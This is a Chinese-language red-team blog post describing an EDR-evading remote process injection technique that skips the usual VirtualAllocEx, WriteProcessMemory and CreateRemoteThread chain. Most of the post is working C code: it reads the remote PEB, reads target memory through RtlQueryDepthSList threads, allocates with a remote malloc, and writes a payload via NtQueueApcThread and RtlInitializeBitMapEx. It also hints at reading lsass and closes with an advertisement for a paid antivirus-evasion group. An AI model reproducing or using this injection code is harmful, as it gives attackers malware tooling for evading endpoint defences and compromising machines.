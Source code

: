 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk1NzM5MTI2Mg==&mid=2247484892&idx=1&sn=b97c48f14b44444c9e2a8d98d658b620

#  避免注入链：Primitive Injection  
半只红队  半只红队   2025-06-30 06:22  
  
在远程进程注入中，EDR肯定会监视这经典的三个迹象：  
- 给进程分配新的内存：VirtualAllocEx  
  
- 修改此进程的内存：WriteProcessMemory、VirtualProtectEx  
  
- 执行：CreateRemoteThread  
  
除了这三个迹象，OpenProcess访问进程的访问权限描述符（dwDesiredAccess）也是检测检测对象，在上述基本的远程注入方法中，**PROCESS_VM_OPERATION、PROCESS_VM_WRITE、PROCESS_CREATE_THREAD**三种访问权限符是必须的。在上一篇分享的文章中分享、总结了Friend&Security的文章《CONTEXT-Only Injection》，这种方法使用的描述符仅PROCESS_CREATE_THREAD，并且分配与写入也是在目标进程中完成，避免了分配、写入、起线程的特征。当然，也仅绕过这个基本的注入链路，但我很喜欢它的**分析过程**。  
  
这篇文章我们就来分享一下另一种思路（由研究员trickster0去年在RedTread展示），也是避免这个链路，OpenProcess的访问权限，看起来并没有什么区别，但里面的思路，如获取堆地址的操作，分配写入、特殊函数等等，让我觉得很值得学习一下。（在阅读这篇文章之前，建议也看看公众号中上一篇文章《避免注入链：CONTEXT-Only》，因为我会在这里会比较他们的做法。）  
## Get Remote Heap Address  
  
说到注入嘛，离不开分配一块内存，问题就来了仅仅只有PROCESS_CREATE_THREAD权限如何做到？上一篇文章使用的是针对线程Set Context的方式，通过这种方式去执行VirtualAlloc，lpAddress是我们指定的，所以分配RWX就直接使用了。  
  
而本文介绍的思路中，使用的是malloc函数，这个函数仅接受一个参数，所以NtCreateThreadEx就直接就分配了，那如何获取分配的内存在哪呢？来看看malloc做啥的，这个函数内部会根据进程的堆基质自动在内存中分配一个空间，所以这个空间是在堆中，堆的基址我们也可以获取，通过PROCESS_QUERY_LIMITED_INFORMATION访问权限下读取目标进程的PEB结构中PebBaseAddress就可以知道。  

```
ULONG_PTR GetRemotePEBAddress() {
 PROCESS_BASIC_INFORMATION pInfo = { 0 };
 DWORD retLength = 0;
 DWORD status = NtApi.pfnNtQueryInformationProcess(hProc, ProcessBasicInformation, &pInfo, sizeof(PROCESS_BASIC_INFORMATION), &retLength);
 return (ULONG_PTR)pInfo.PebBaseAddress;
}

```

  
获取了PEB指针，现在需要去读取PebBaseAddress地址中的值，没有PROCESS_VM_READ权限就要考虑其他方式，这里用到函数GetExitCodeThread、RtlQueryDepthSList，第一个接受线程的返回值，但是它只会返回4个字节的EAX，在堆中我们最少需要6个字节。而第二个函数则是一个读取的操作，查看它的代码，还是挺舒服的嗯嗯。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq5ZhQSlicnuBcr8sZ1USu2HFmF5PhnyjYe1RTaUKibeCNagPhNPPwC9IWicds6g5ibiaI1jwWgAqeib8SVw/640?wx_fmt=png&from=appmsg "")  
  
所以现在的操作即迭代一下就可以读取到目标进程的内存地址了。（读lsass可以不？。。。）  

```
ULONG_PTR ReadRemotePEBAddress(HANDLE hProc, LPVOID pPebOffset, int sizeofVal) {
unsignedchar* readBytes = (unsignedchar*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeofVal);
 DWORD dwDataLength = sizeofVal;
for (DWORD i = 0; i < dwDataLength; i = i + 2)
 {
  HANDLE hThread = NULL;
  NtApi.pfnNtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProc, NtApi.pfnRtlQueryDepthSList, (ULONG_PTR*)((BYTE*)pPebOffset + i), FALSE, 0, 0, 0, NULL);
  DWORD ExitCode = 0;
  NtApi.pfnNtWaitForSingleObject(hThread, FALSE, NULL);
  GetExitCodeThread(hThread, &ExitCode);

if (dwDataLength - i == 1)
   memcpy((char*)readBytes + i, (constvoid*)&ExitCode, 1);
else
   memcpy((char*)readBytes + i, (constvoid*)&ExitCode, 2);
 }
return (ULONG_PTR)readBytes;
}

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq5ZhQSlicnuBcr8sZ1USu2HFafTMvE9DI1hic5mE6ibF6iaicrZPibLXJrCm7fqLabcsFNfQgg1vqS74Bvw/640?wx_fmt=png&from=appmsg "")  
  
由于malloc是在进程的堆基址中分配，所以我可以获取分配地址的最后四个字节，在它们之间进行AND计算，最终获取到分配的地址：  

```
ULONG_PTR RemoteAllocation(HANDLE hProc, LPVOID pHeapBaseAddr, int sizeofVal) {
 ULONG_PTR pfnMalloc = (ULONG_PTR)GetProcAddress(LoadLibraryA(&#34;msvcrt.dll&#34;), &#34;malloc&#34;);
 HANDLE hThread = NULL;
 NtApi.pfnNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProc, (PVOID)pfnMalloc, (PVOID)sizeofVal, FALSE, 0, 0, 0, NULL);
 NtApi.pfnNtWaitForSingleObject(hThread, FALSE, NULL);
 DWORD ExitCode = 0;
 GetExitCodeThread(hThread, &ExitCode);
 DWORD64 heapAllocation = (0xFFFFFFFF00000000 & (INT64)pHeapBaseAddr) + ExitCode;
 return (ULONG_PTR)heapAllocation;
}

```

## Write to Target Process  
  
目前可做到远程读取和分配了，剩下就是写入，在CONTEXT-Only的方式中，使用的是GetThreadContext、SetThreadContext方式对执行流进行操作，并通过RtlFillMemory将字节一个个写入。而不用这种方法的思路就是通过NtQueueApcThread操作，因为它最多支持三个参数，正好可以给RtlFillMemory用。  
  
但是APC队列会非常多，多到直接崩溃...  
  
所以有了另一个函数：RtlInitializeBitMapEx，这个函数底层的功能就是写入的操作（虽然它的作用不是用来WriteProcessMemory的），下面的代码也很干净。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq5ZhQSlicnuBcr8sZ1USu2HFcmQ9Zm51ia7oQk6dKl6xoiamLG4CgguP044ZibfCuibibicnLOIzcQia67xFQ/640?wx_fmt=png&from=appmsg "")  
  
它接受三个参数：第一个参数是目标内存地址，即我们希望写入数据的地址；第二个参数是目标地址的偏移量，表示在目标地址基础上写入的额外8字节；第三个参数是初始8字节数据，即要写入目标地址的首个数据块。这个也是三个参数的，所以可以通过循环调用NtQueueApcThread，可以在远程进程中写入数据，这比RtlFillMemory效率高了16倍。  

```
VOID WriteRemoteMemory(HANDLE hProc, LPVOID heapAllocation, SIZE_T sizeofVal, unsigned char* buffer, HMODULE module) {
 LPVOID RtlFillMemory = GetProcAddress(module, &#34;RtlFillMemory&#34;);
 LPVOID RtlExitUserThread = GetProcAddress(module, &#34;RtlExitUserThread&#34;);
 LPVOID RtlInitializeBitMapEx = GetProcAddress(module, &#34;RtlInitializeBitMapEx&#34;);

 HANDLE hThread = NULL;
 NtApi.pfnNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProc, RtlExitUserThread, (PVOID)0x00000000, TRUE, 0, 0, 0, NULL);
int alignmentCheck = sizeofVal % 16;
int offsetMax = sizeofVal - alignmentCheck;
int firCounter = 0;
int eightCounter = 0;
int secCounter = 0;
int mod = 0;

if (sizeofVal >= 16) {
for (firCounter = 0; firCounter < offsetMax - 1; firCounter = firCounter + 16) {
   char* heapWriter = (char*)heapAllocation + firCounter;
   NtApi.pfnNtQueueApcThread(hThread, (PKNORMAL_ROUTINE)RtlInitializeBitMapEx, (PVOID)heapWriter, (PVOID) * (ULONG_PTR*)((char*)buffer + firCounter + 8), (PVOID) * (ULONG_PTR*)((char*)buffer + firCounter));
  }
 }

if (alignmentCheck >= 8) {
for (eightCounter = firCounter; (eightCounter + 8) < (firCounter + alignmentCheck - 1); eightCounter = eightCounter + 8) {
   char* heapWriter = (char*)heapAllocation + eightCounter;
   NtApi.pfnNtQueueApcThread(hThread, (PKNORMAL_ROUTINE)RtlInitializeBitMapEx, (PVOID)heapWriter, NULL, (PVOID) * (ULONG_PTR*)((char*)buffer + eightCounter));
  }
  alignmentCheck -= 8;
 }

if (alignmentCheck != 0 && alignmentCheck < 8) {

if ((firCounter != 0 && eightCounter != 0) || (firCounter != 0 && eightCounter != 0)) {
   secCounter = eightCounter;
   mod = eightCounter;
  }
elseif (firCounter != 0 && eightCounter == 0) {
   secCounter = firCounter;
   mod = firCounter;
  }

for (; secCounter < (mod + alignmentCheck); secCounter++) {
   char* heapWriter = (char*)heapAllocation + secCounter;
   NtApi.pfnNtQueueApcThread(hThread, (PKNORMAL_ROUTINE)RtlFillMemory, (PVOID)heapWriter, (PVOID)1, (PVOID)buffer[secCounter]);
  }
 }

 NtApi.pfnNtResumeThread(hThread, NULL);
 NtApi.pfnNtWaitForSingleObject(hThread, FALSE, NULL);
return;
}

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq5ZhQSlicnuBcr8sZ1USu2HFVibIhqMqSW1MucVFTibaYKXsGdvxLBf1y8ibH5XYooZCJuzbnkNELHuAQ/640?wx_fmt=png&from=appmsg "")  
## The End  
  
这种思路倒是可以和上篇文章CONTEXT-Only结合一下，或许减少了很多了线程创建。或者Dirty Vanity也可以，下面给出两篇文章的链接。这个方法虽然它提供了很好的分配空间、与读取远程内存的思路，但是它并不能直接起远程线程执行，还是需要去寻求其他的方式去VirtualAlloc等，原作者的方式有种Foliage的味道，咱们就聊到这里，就不展开了。  
  
Dirty Vanity：https://www.deepinstinct.com/blog/dirty-vanity-a-new-approach-to-code-injection-edr-bypass  
  
CONTEXT-Only：https://blog.fndsec.net/2025/05/16/the-context-only-attack-surface/  
### 圈子介绍  
### 圈子内部致力于红蓝对抗，武器免杀与二开，不定期分享前沿技术文章，经验总结，学习笔记以及自研工具与插件，进圈联系~  
### 圈子已满200余人，目前价格199，学生优惠30  
### 后续升价  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq6O9ceL4eETRFrWG9MAbicK1noOrz1pGynbCudIVyPOw6x4p6osZ9RckIWjia9PdPem8vENHricdbRsQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq4kT2c3qISNJSRoRmK9NhjDKHMT0m5F0CkGGZdxLcEXYVlEwGNJ7HnIPc44qc6gf9fPuuVqiadVKZQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
